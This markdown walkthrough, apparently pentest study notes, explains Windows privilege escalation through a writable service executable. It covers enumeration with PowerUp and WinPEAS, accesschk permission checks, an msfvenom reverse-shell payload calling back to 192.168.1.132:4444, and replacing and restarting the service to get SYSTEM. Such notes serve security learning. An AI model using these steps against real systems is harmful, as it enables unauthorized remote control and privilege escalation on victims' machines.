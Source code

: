 # Escalation via Insecure Service Executable

If a service’s **executable file** (`.exe`) is **writable by non-admin users**, it becomes a privilege escalation risk.

You can **replace the original executable with a malicious one**, and when the service is restarted, it will run **your payload** — potentially with **SYSTEM privileges**.

### 🧰 Enumeration Tools

- **PowerUp.ps1** (PowerShell script)
- **WinPEAS.exe** (automated enumeration tool)

After running one of these, look for Files highlighted as **world-writable** (accessible by Everyone or your user)

<img width="900" height="45" alt="image" src="https://github.com/user-attachments/assets/feb952d2-3ad3-4a63-ac47-094ab57c9065" />


*(Example: Found executable* `C:\Program Files\Files Permissions Service\filepermservice.exe` **

### 🔐 Step 1: Check File Permissions

Use `accesschk` to see if the executable is writable:

```bash
accesschk.exe /accepteula -quvw "C:\Program Files\Files Permissions Service\filepermservice.exe"
```

Look for `W` write access granted to:

- `Users`
- `Everyone`
- Your own user

<img width="794" height="254" alt="image" src="https://github.com/user-attachments/assets/9069aca8-b8c7-4684-a1cc-50a262bd9f66" />


### 🔧 Step 2: Can You Start/Stop the Service?

Check if you can control the service:

```bash
accesschk.exe /accepteula -ucqv filepermsvc
```

Make sure you have:

- `SERVICE_START`
- `SERVICE_STOP`

### 💣 Step 3: Create a Malicious Executable

Generate a reverse shell payload:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.132 LPORT=4444 -f exe -o reverse.exe
```

### 📤 Step 4: Replace the Service Executable

Copy `reverse.exe` to the victim machine and overwrite the vulnerable service executable:

Replace:

`filepermservice.exe`

With:

`reverse.exe` with original name `filepermservice.exe`

Make sure the name and path match exactly. 

*(Backup original executable first if needed)*

### 🚀 Step 5: Restart the Service

```bash
net stop filepermsvc
net start filepermsvc
```

Once restarted, it will run **your reverse shell payload**, giving you elevated access (usually SYSTEM).
